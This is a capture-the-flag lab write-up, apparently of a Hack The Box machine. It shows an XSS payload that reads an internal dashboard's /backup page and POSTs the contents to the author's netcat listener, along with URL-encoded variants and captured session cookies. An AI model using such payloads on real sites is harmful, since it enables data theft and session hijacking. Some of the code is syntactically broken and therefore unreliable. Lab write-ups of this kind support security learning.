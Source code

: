 
This is where out's payload to browse the Dashboard domain: (out: HackSmarter)
```html
<script> 
var url = "http://dashboard.comprezzor.htb/backup";
var xhr = new XMLHttpRequest();
xhr.open("GET",url,false);
xhr.send();
var resp = xhr.responseText;
var xhr2.open("POST","http://mymachine:port/",false);
xhr2.send(resp);
</script>
```

This payload sends a request to get a url then send it back to our `nc -lvnp` as to view the data. 
- [developer.mozilla.org: XMLHttpRequest_API documentation](https://developer.mozilla.org/en-US/docs/Web/API/XMLHttpRequest_API/Using_XMLHttpRequest)
![]()


```html
<script> var url = "http://dashboard.comprezzor.htb/backup";var xhr = new XMLHttpRequest();xhr.open("GET",url,false);xhr.send();var resp = xhr.responseText;var xhr2.open("POST","http://10.10.14.39:8445/",false);xhr2.send(resp);</script>
```

Here was my spelling mistakes that lost me at least 20-30 minutes:
```html
<script>var url="http://dashboard.comprezzor.htb/backup"; var xhr-new XMLHttpRequest();
xhr.open("GET",url,false); xhr.send(); var resp=xhr.reponse.Text();var xhr2.open("POST","http://10.10.14.39:8554",false); xhr2.send(resp);</script>

<script>var+url%3d"http%3a//dashboard.comprezzor.htb/backup"%3b+var+xhr-new+XMLHttpRequest()%3bxhr.open("GET",url,false)%3b+xhr.send()%3b+var+resp%3dxhr.response.Text()%3bvar+xhr2.open("POST","http%3a//10.10.14.39:8445",false)%3b+xhr2.send(resp)%3b</script>
```

#### Back to cookie snatching

After doing some checks on the cookie
```
eyJ1c2VyX2lkIjogMiwgInVzZXJuYW1lIjogImFkYW0iLCAicm9sZSI6ICJ3ZWJkZXYifXw1OGY2ZjcyNTMzOWNlM2Y2OWQ4NTUyYTEwNjk2ZGRlYmI2OGIyYjU3ZDJlNTIzYzA4YmRlODY4ZDNhNzU2ZGI4

eyJ1c2VyX2lkIjogNiwgInVzZXJuYW1lIjogImFzZCIsICJyb2xlIjogInVzZXIifXxhMTJmZjZlMTRkMzdjNmU1NjcwYWYzY2Q5MTVjY2ZhNWIwZTVjN2JjMTIzOTM1NTZjMWYwNzk2NDNlMWVlMzg2
```
I am able to view the dashboard subdomain, but I really wanted to nmake the above payload work
![](Icouldhaveusedthecookiebutmybrainstillwantstoknowhowtoenumeratewiththexss.png)

Recon in the background with the known good tried and true is good
![](reconinthebackground.png)

Remembering back to how these reports are handled...
![](aboutreports.png)
